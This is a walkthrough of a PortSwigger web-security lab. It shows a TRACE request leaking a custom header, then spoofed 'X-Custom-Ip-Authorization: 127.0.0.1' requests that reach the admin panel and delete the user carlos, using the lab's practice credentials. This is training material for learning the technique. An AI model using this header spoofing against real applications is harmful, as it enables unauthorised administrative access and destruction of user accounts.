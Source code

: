 
# Authentication bypass via information disclosure

This lab's administration interface has an authentication bypass vulnerability, but it is impractical to exploit without knowledge of a custom HTTP header used by the front-end.

To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the admin interface and delete Carlos's account.

You can log in to your own account using the following credentials: wiener:peter

---------------------------------------------

References: 

- https://portswigger.net/web-security/information-disclosure/exploiting



![img](images/Authentication%20bypass%20via%20information%20disclosure/1.png)

---------------------------------------------

After logging in, send a request with the TRACE HTTP method, which reveals the header “X-Custom-IP-Authorization”:



![img](images/Authentication%20bypass%20via%20information%20disclosure/2.png)


It is possible to access /admin with:

```
GET /admin HTTP/2
...
X-Custom-Ip-Authorization: 127.0.0.1
```



![img](images/Authentication%20bypass%20via%20information%20disclosure/3.png)


And then delete the user with:

```
GET /admin/delete?username=carlos HTTP/2
...
X-Custom-Ip-Authorization: 127.0.0.1
```



![img](images/Authentication%20bypass%20via%20information%20disclosure/4.png)